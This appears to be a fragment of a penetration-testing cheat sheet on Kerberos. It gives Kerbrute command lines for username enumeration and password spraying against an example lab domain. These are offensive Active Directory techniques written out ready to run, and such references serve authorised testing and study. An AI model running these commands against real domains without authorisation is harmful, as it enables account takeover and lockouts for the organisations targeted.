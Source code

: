 ![Kerberos Diagram](../../assets/Kerb_auth.png)

## Tools
### Kerbrute
https://github.com/ropnop/kerbrute

User Enumeration
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
```

Password Spray
```
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```